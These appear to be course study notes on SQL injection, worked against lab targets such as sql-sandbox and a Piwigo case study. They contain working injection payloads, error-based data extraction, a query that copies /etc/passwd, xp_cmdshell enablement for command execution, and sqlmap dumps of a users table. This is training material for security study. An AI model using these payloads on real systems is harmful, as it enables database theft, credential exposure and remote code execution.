# Module 9: SQL Injection

## Introduction to SQL Injection

### What is SQL Injection?

_Unsanitized user input inserrted into queries and passed to the database for execution._

## Testing for SQL Injection

### String Delimiters

_Example payload escaping our closing out a string delimiter_

```sql
' or 1=1 -- //
```

### Closing Out Strings and Functions

_Example payload escaping or closing out a function call_

```sql
foo') or 1=1 -- //
```

### Sorting

Use something like Burp Suite to modify the request parameters, ex. sort by ID being change to a column number.

### Boundary Testing

Submit values that may fall outside the scope of a limited data set. Previous example of submitting an invalid column number to receive an error could be considered as a form of Boundary Testing.&#x20;

### Fuzzing

<figure><figcaption><p><em>Capturing POST request to /api/intro in Burp Suite HTTP history</em></p></figcaption></figure>

_Using wfuzz to identify SQL injection_


```bash
kali@kali:~$ wfuzz -c -z file,/usr/share/wordlists/wfuzz/Injections/SQL.txt -d "db=mysql&id=FUZZ" -u http://sql-sandbox/api/intro

********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://sql-sandbox/api/intro
Total requests: 125

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                         
=====================================================================

000000007:   500        0 L      48 W       342 Ch      "--';"
000000020:   500        0 L      48 W       360 Ch      "<>"'%;)(&+"  
000000003:   500        0 L      48 W       338 Ch      "#" 
000000014:   500        0 L      50 W       365 Ch      "\x3D%20\x3B'"  
000000021:   200        0 L      1 W        2 Ch        "'%20or%20''='" 
000000018:   500        0 L      52 W       361 Ch      "'or%20select *"  
000000015:   500        0 L      50 W       363 Ch      "\x3D%20\x27" 
000000025:   200        0 L      62 W       495 Ch      "0 or 1=1"
000000058:   500        0 L      48 W       341 Ch      "as"  
...

Total time: 0
Processed Requests: 125
Filtered Requests: 0
Requests/sec.: 0
```


<figure><figcaption><p><em>Using Repeater to test a payload</em></p></figcaption></figure>

<figure><figcaption><p><em>Using Repeater to exploit SQL injection</em></p></figcaption></figure>

## Exploiting SQL Injection

### Error-based Payloads

_Use errors to extract useful information._&#x20;

<figure><figcaption><p>Error-based SQL injection in Microsoft SQL Server</p></figcaption></figure>

<figure><figcaption><p>Error-based SQL injection using ExtractValue() in MySQL</p></figcaption></figure>

_Sample Oracle blind SQL injection payload_

```sql
01  to_char(
02    dbms_xmlgen.getxml(
03      'select "'||
04        (select substr(banner,0,30) from v$version where rownum=1)
05      ||'" from sys.dual'
06    )
07  ) 
```

_Using Offset to query our database name_


```sql
inStock=cast((SELECT+name+FROM+sys.databases+ORDER+BY+name+OFFSET+0+ROWS+FETCH+NEXT+1+ROWS+ONLY)+as+integer)&name=&sort=id&order=asc
```


_Identifying our schema_


```sql
inStock=cast((select+schema_name+from+exercise.information_schema.schemata+ORDER+BY+schema_name+OFFSET+9+ROWS+FETCH+NEXT+1+ROWS+ONLY)as+integer)&name=&sort=id&order=asc
```


_Querying the flag_


```sql
inStock=cast((select+flag+from+exercise.dbo.secrets)+as+integer)&name=&sort=id&order=asc
```


### UNION-based Payloads

<figure><figcaption><p>Using a UNION to combine two SELECT statements</p></figcaption></figure>

<figure><figcaption><p>Executing a UNION-based SQL injection payload</p></figcaption></figure>

### Stacked Queries

_Executing more than one query at a time._

_Example stacked query_

```sql
SELECT * from menu where id = 10; SELECT * from users;
```

_SQL syntax for an INSERT statement_


```sql
INSERT INTO <table name>(<comma separated list of columns>) values (<comma separated list of values>);
```


<figure><figcaption><p>Results of submitting a stacked query to insert data</p></figcaption></figure>

<figure><figcaption><p>Querying the users table to verify our payload worked</p></figcaption></figure>

### Reading and Writing Files

_SQL payload to create a new table, copy /etc/passwd into the table, and return the table's content_

```sql
create table tmp(data text);
copy tmp from '/etc/passwd';
select * from tmp;
```


The table can then be deleted with `drop table tmp;`


<figure><figcaption><p>Using the pg_read_file() function to access /etc/passwd</p></figcaption></figure>

<figure><figcaption><p>Verifying the secure_file_priv variable is set in our sandbox application</p></figcaption></figure>

<figure><figcaption><p>Writing a file using MySQL INTO OUTFILE</p></figcaption></figure>

<figure><figcaption><p>Reading a file using MySQL LOAD_FILE()</p></figcaption></figure>

### Remote Code Execution

_Commands to enable xp\_cmdshell()_

```sql
-- To allow advanced options to be changed.  
EXECUTE sp_configure 'show advanced options', 1;  
GO  
-- To update the currently configured value for advanced options.  
RECONFIGURE;  
GO  
-- To enable the feature.  
EXECUTE sp_configure 'xp_cmdshell', 1;  
GO  
-- To update the currently configured value for this feature.  
RECONFIGURE;  
GO
```

_Using xp\_cmdshell to run a command_

```sql
EXECUTE xp_cmdshell 'command to run here';
```

### Extra Miles

_Extra lab._

## Database dumping with Automated Tools

### SQLMap

<figure><figcaption><p>Search results on /sqlmap</p></figcaption></figure>

<figure><figcaption><p>Baseline request and response that we will provide to sqlmap</p></figcaption></figure>

_Sample sqlmap usage_


```bash
kali@kali:~$ sqlmap -u http://sql-sandbox/sqlmap/api --method POST --data "db=mysql&name=taco&sort=id&order=asc" -p "name,sort,order"
...
[15:00:23] [INFO] testing 'Generic inline queries'
[15:00:23] [INFO] testing 'PostgreSQL > 8.1 stacked queries (comment)'
[15:00:23] [INFO] testing 'Microsoft SQL Server/Sybase stacked queries (comment)'
[15:00:23] [INFO] testing 'Oracle stacked queries (DBMS_PIPE.RECEIVE_MESSAGE - comment)'
[15:00:23] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[15:00:23] [INFO] testing 'PostgreSQL > 8.1 AND time-based blind'
[15:00:23] [INFO] testing 'Microsoft SQL Server/Sybase time-based blind (IF)'
[15:00:23] [INFO] testing 'Oracle AND time-based blind'
it is recommended to perform only basic UNION tests if there is not at least one other (potential) technique found. Do you want to reduce the number of requests? [Y/n]
```


_sqlmap identified a vulnerable parameter_


```bash
[15:02:06] [WARNING] POST parameter 'name' does not seem to be injectable
[15:02:06] [WARNING] heuristic (basic) test shows that POST parameter 'sort' might not be injectable
[15:02:06] [INFO] testing for SQL injection on POST parameter 'sort'
[15:02:06] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[15:02:06] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[15:02:06] [INFO] POST parameter 'sort' appears to be 'Boolean-based blind - Parameter replace (original value)' injectable (with --code=200)
[15:02:07] [INFO] heuristic (extended) test shows that the back-end DBMS could be 'MySQL'
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n]
```


_sqlmap results_


```bash
sqlmap identified the following injection point(s) with a total of 319 HTTP(s) requests:
---
Parameter: sort (POST)
    Type: boolean-based blind
    Title: Boolean-based blind - Parameter replace (original value)
    Payload: db=mysql&name=taco&sort=(SELECT (CASE WHEN (4205=4205) THEN 'id' ELSE (SELECT 5575 UNION SELECT 9292) END))&order=asc

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: db=mysql&name=taco&sort=id AND (SELECT 6144 FROM (SELECT(SLEEP(5)))WrFh)&order=asc
---
[15:03:47] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0.12
[15:03:48] [WARNING] HTTP error codes detected during run:
500 (Internal Server Error) - 230 times
[15:03:48] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/sql-sandbox'

[*] ending @ 15:03:48 /2021-07-28/
```


_Excerpt of using sqlmap to dump a database_


```bash
kali@kali:~$ sqlmap -u http://sql-sandbox/sqlmap/api --method POST --data "db=mysql&name=taco&sort=id&order=asc" -p "name,sort,order" --dbms=mysql --dump

...
Database: app
Table: users
[1 entry]
+------+------------+-----------+
| id   | password   | username  |
+------+------------+-----------+
| 1000 | notunusual | tom.jones |
+------+------------+-----------+

[15:06:29] [INFO] table 'app.users' dumped to CSV file '/home/kali/.local/share/sqlmap/output/sql-sandbox/dump/app/users.csv'
```


## Case Study: Error-based SQLi in Piwigo

### Accessing Piwigo

_Start the VPN, the VM, and add its IP to your hosts file._

### Discovering the Vulnerable Parameter

<figure><figcaption><p>Piwigo index page</p></figcaption></figure>

<figure><figcaption><p>Piwigo admin section</p></figcaption></figure>

<figure><figcaption><p>HTTP request and response for /admin/user_list_backend.php</p></figcaption></figure>

<figure><figcaption><p>Sending the POST body to Decoder</p></figcaption></figure>

<figure><figcaption><p>Using Decoder to URL-decode the POST body</p></figcaption></figure>

_Excerpt of the decoded POST body to /admin/user\_list\_backend.php_

```sql
draw=1
&columns[0][data]=0
&columns[0][name]=
&columns[0][searchable]=true
&columns[0][orderable]=true
&columns[0][search][value]=
&columns[0][search][regex]=false
...
&order[0][column]=0
&order[0][dir]=asc
&start=0
&length=10
&search[value]=
&search[regex]=false
&pwg_token=5b670eff460389c20f48bf28c9cb2b7f
```

<figure><figcaption><p>Sending the POST request to Repeater</p></figcaption></figure>

_Placing the quotes in the POST body_


```sql
draw=2&columns%5B0%5D%5Bdata%5D=0&...order%5B0%5D%5Bcolumn%5D=3&order%5B0%5D%5Bdir%5D=asc'&start=0'&length=10'&search%5Bvalue%5D=&search%5Bregex%5D=false&pwg_token=5b670eff460389c20f48bf28c9cb2b7f
```


_Hacking attempt_


```markup
<meta http-equiv='Content-Type' content='text/html; charset=utf-8'>
